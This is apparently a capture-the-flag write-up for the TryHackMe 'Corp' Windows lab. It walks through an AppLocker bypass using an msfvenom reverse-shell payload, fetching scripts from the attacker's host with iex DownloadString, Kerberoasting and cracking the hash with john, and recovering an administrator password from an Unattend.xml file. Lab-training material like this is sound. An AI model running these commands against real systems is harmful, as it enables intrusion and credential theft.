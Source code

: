 ```yaml
---
title: "Corp"
---
```


:::info Description

This is a write-up for the [Corp Room](https://tryhackme.com/room/corp) on TryHackMe.

Note: Task #1 is to deploy the machine.

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Easy|5/5|

:::

## TASK2: BYPASS APPLOCK

I RDP to the machine with login details provided. On the machine I can't 

### shell.exe

I want to generate a malicious shell and download to an 'allow-listed' directory e.g. `C:\Windows\System32\spool\drivers\color`.

Generate: `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.55.83 LPORT=80 -e x86/shikata_ga_nai -f exe -o shell.exe`

Serve it from my attack machine: `sudo python3 -m http.server 80`

Try pull it down from my RDP session: `certutil.exe -urlcache -f http://10.11.55.83/shell.exe shell.exe` WRONG.

Try again with PowerShell: `Invoke-WebRequest -Uri "http://10.11.55.83/shell.exe" -OutFile ".\shell.exe"` CORRECT.

download to directory: `C:\Windows\System32\spool\drivers\color` successful, but running the exe kept tripping AV. need to look into obfuscating binary in some way.

## TASK3: KERBEROASTING

Follow instructions on how to complete this task.

### enumerate windows

Looking for existing Service Principals (spn):

```powershell
PS C:\Users\dark> setspn.exe -T medin -Q */*
Ldap Error(0x51 -- Server Down): ldap_connect
Failed to retrieve DN for domain "medin" : 0x00000051
Warning: No valid targets specified, reverting to current domain.
CN=OMEGA,OU=Domain Controllers,DC=corp,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
        ldap/omega.corp.local/ForestDnsZones.corp.local
        ldap/omega.corp.local/DomainDnsZones.corp.local
        TERMSRV/OMEGA
        TERMSRV/omega.corp.local
        DNS/omega.corp.local
        GC/omega.corp.local/corp.local
        RestrictedKrbHost/omega.corp.local
        RestrictedKrbHost/OMEGA
        RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        HOST/OMEGA/CORP
        HOST/omega.corp.local/CORP
        HOST/OMEGA
        HOST/omega.corp.local
        HOST/omega.corp.local/corp.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
        ldap/OMEGA/CORP
        ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        ldap/omega.corp.local/CORP
        ldap/OMEGA
        ldap/omega.corp.local
        ldap/omega.corp.local/corp.local
CN=krbtgt,CN=Users,DC=corp,DC=local
        kadmin/changepw
CN=fela,CN=Users,DC=corp,DC=local
        HTTP/fela
        HOST/fela@corp.local
        HTTP/fela@corp.local

Existing SPN found!
```

### get kerberoast.ps1

no external network, served the kerberoast ps1 from my local webserver:

```powershell
PS C:\Users\dark> iex(New-Object Net.WebClient).DownloadString('http://10.11.55.83/Invoke-Kerberoast.ps1')
PS C:\Users\dark> Invoke-Kerberoast -OutputFormat hashcat|fl


TicketByteHexStream  :
Hash                 : $krb5tgs$23$*fela$corp.local$HTTP/fela*$1F4596FE1600B29B2C9C9372905C3DAA$55AD748236930A037C
                       D75C0720E2B5416A7A48FD40189B621C110C19DC51AA947718EFE907583823B8FF220F32E1277F3FEB01DE738E8
                       5DC1F15ACEDAAC6C0B30C66936464C1F0B20388F539EDCDA68FE4A588383BC8A4E139C491EE5B5ACF4481954D86
                       86DDF9C4E685628AAFAA95BCFE5E3FE2E8C1CCECE32071EBB07997C0B5C6B8814EBF973C9486680FA944F98F6A2
                       46D50205A9BB026D43CC326D053346767F54DC4FF4F822548F0FF0BA58D58A3BA14ABF05A004B4E50D42F68664A
                       E4EAC6660FADAA4B87A61A227CC956CBCF6E7FEA4AFFFFD6374AC20614177BF09C54F2EEE0CA2615FA4FA941430
                       1D251AB5616774D07FEF1E3F4337D9AB58A33861A7B95120E0BDD537D5CA2E1427CB4075FDE81AAC3FF502AA8C1
                       9CB629C69211D19193A498F36DDD8EF1630A95E22E35B6A72E1482B5A4231F3A6B335A6F88954FBE5E3BD25287D
                       B91AF143BB91C6A5538776CAF5E339C8CB045E4927F7395D606FC90DFD60ABAF04FA39D42D684FC9E70A521CA50
                       272C43CA51E2C7C85C470BEA4509F4EAA84467F9878B96D1CA32550E635175C0E5129669F8F80264D451A83D9E8
                       6E6A1FBD6E5B0436C20D43B5187F80A626EEF84D0477AFBA4729F0342601CFCE3FA891229959D8EFF0A48ABB782
                       146105769CFEF0C19A60DB10943323D11BED7CFD65C56B2D2CB5CDC5D0B13580469F0664188427C86D5F758A53B
                       7041DD9678439695545A5A19497FDF82E02F51427D1E1AC2BD9AA23CF87F45925BE17707244D3920D7F144199D0
                       DCD58968D5B07FBE9753109AC735442A85111D1DC8246A86E68E5F18DBB18511C9842EB9CBD0E0E74380DA176BF
                       68A1235AD6FD99CAAB44184709339845D2FE3AA2A1ADC0A5FD27374DA33CF19A674AF740368A4862295414FF2A6
                       DAEE9B2E17E911374292A8D08A42A5D83DE63C7B9026C83BC8A47DAE2F46BAC78B86051565C8BF078ED8E73C8DB
                       CA22C382CF4633DD0C9573EF300CC836377FADB488936B2DD07922D544EE85FA50BA0514F72EE7288FC4A028035
                       ABD9E255D424B4B7A80DCCA27846C2EDE8957EA025F49A1D9367B9309D4516B30694C34E10EEC694795FE1D3BC3
                       E0D86332124ED33F9A3084F25B3BA2DD59AEB585FC94BE95A7AABF7165377EA92AEDF441E6C2D29E2F2501DFA0B
                       255AA76A3869D8262D0A6D7F3C6BDD17BC83AB5EC85D9DB71D58B00EC8F7F4E001C9C856F812ADD9ED42905A03B
                       17ED2ACB153D7B2D334C05BFBC68AFC0ECEFA97864F4B060D612B3FE436FA6B3DE682DF0E2788AAB4F57DF35D08
                       4CDB2290DB60B8F4C30717084A6125BC79538B128DF1F73603F40448F4934AF27D3711682B5516EB2902A86E639
                       45BC7FD6D75A10558E7A419AA006C1DCC9AB195E757F521513299C3B2
SamAccountName       : fela
DistinguishedName    : CN=fela,CN=Users,DC=corp,DC=local
ServicePrincipalName : HTTP/fela
```

### crack hash

copied the hash to a text file `hash.txt` and then used `cat hash.txt | tr -d "[:space:]" > hash.file` to remove all whitespaces and join the hash up.

then used john (thanks tedd) to crack:

```bash
➜  CORP git:(main) ✗ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rubenF124        (?)
1g 0:00:00:07 DONE (2022-03-31 22:36) 0.1340g/s 554003p/s 554003c/s 554003C/s rubens02..ruben4484
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

show

```bash
➜  CORP git:(main) ✗ john --show hash.txt
?:rubenF124

1 password hash cracked, 0 left
```

## PRIVESC: user

RDP logged in as `fela` and got flag from desktop.

## PRIVESC: root

Web served the `PowerUp.ps1` script from my attack machine: `iex​(New-Object Net.WebClient).DownloadString('http://http://10.11.55.83/download/PowerUp.ps1')`

### PowerUp.ps1

Found a hash value:

```powershell
PS C:\Users\fela.CORP> iex(New-Object Net.WebClient).DownloadString('http://10.11.55.83/download/PowerUp.ps1')
PS C:\Users\fela.CORP> type C:\Windows\Panther\Unattend\Unattended.xml
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
```

```bash
dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=
certutil.exe -decode "C:\path\to\b64.txt" decode.txt`

$echo dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ= | base64 -d
tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

Use `tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T` admin password with `evil-winrm` login as Admin, grab flag from `C:\Users\Administrator\Desktop`
